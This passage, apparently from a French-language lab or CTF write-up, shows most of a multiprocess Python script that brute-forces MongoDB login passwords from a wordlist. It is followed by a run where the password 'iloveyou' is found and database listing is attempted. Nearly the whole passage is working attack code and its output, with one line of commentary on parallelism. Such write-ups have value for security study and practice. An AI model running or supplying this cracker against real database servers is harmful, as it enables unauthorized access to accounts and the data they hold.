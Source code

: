```python
            except OperationFailure as exception:
                print(exception)
            else:
                try:
                    databases = client.database_names()
                except OperationFailure as exception:
                    if exception.code == 18:
                        # authentication failed, kept for improvements
                        pass
                    else:
                        print("Authentication succeed with password", password)
                        print("but got the following exception:")
                        print(exception)
                        print('')
                        success_event.set()
                else:
                    print("Authentication succeed with password", password)
                    print("Databases:", ", ".join(databases))
                    success_event.set()

        if success_event.is_set():
            print("Process {} is leaving (success)".format(name))
            break

q = Queue()
finished_event = Event()
found_event = Event()
processes = []

print("Lauching {} cracking processes".format(PROCESS_COUNT))
for i in range(PROCESS_COUNT):
    p = Process(target=test_password, args=(q, finished_event, found_event, i))
    p.start()
    processes.append(p)

with open(sys.argv[1], errors="ignore") as fd:
    for line in fd:
        password = line.strip()
        q.put(password)
        if found_event.is_set():
            break
    finished_event.set()

for p in processes:
    p.join()
```

Ici j'utilise 4 process en parallèle. Ce sera jamais à la hauteur du parallélisme de Go ou Rust mais ça fonctionne :  

```plain
$ python mongo_brute.py pass.txt
Lauching 4 cracking processes
Authentication succeed with password iloveyou
but got the following exception:
not authorized on admin to execute command { listDatabases: 1, nameOnly: true, lsid: { id: UUID("80546e04-19e8-440d-8458-6fd6efb7267e") }, $db: "admin", $readPreference: { mode: "primaryPreferred" } }

Process 1 is leaving (success)
Process 0 is leaving (no more tasks)
Process 3 is leaving (no more tasks)
Process 2 is leaving (no more tasks)
```
